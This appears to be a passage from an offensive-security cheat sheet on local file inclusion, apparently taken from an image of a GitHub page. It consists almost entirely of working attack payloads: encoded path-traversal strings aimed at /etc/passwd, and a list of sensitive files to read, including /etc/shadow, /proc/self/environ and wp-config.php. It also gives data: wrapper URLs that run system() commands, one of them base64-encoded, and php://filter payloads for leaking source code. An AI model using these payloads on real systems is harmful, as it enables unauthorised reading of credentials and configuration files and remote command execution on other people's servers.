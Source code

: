 ```
..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8etc/passwd
```

You can also try to use those insted of `/etc/passwd`
```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
/var/log/apache2/access.log
/etc/apache2/sites-enabled/000-default.conf
/etc/apache2/sites-enabled/<site-from-000-df-comment>
/var/www/wordpress/wp-config.php
/etc/nginx/nginx.conf
/etc/nginx/sites-enabled
```

# LFI examples

*akech.xyz/index.php?token=`/etc/passwd%00`*

*akrech.xyz/index.php?page=`../../../../../../etc/passwd`*

```
http://www.test.com.ar/main.php?pagina=data:text/plain,<?system($_GET['x']);?>&x=ls
```
```
http://www.test.com.ar/main.php?pagina=data:,<?system($_GET['x']);?>&x=ls
```
```
http://www.test.com.ar/main.php?pagina=data:;base64,PD9zeXN0ZW0oJF9HRVRbJ3gnXSk7Pz4=&x=ls
```

### PHP filters

```php
php://filter/convert.base64-encode/resource=
```

```php
php://filter/read=string.rot13/resource=
```

*example input:*

example.com/index.php?page=`php://filter/read=string.rot13/resource=`index.php

example.com/index.php?page=`php://filter/convert.base64-encode/resource=`index.php
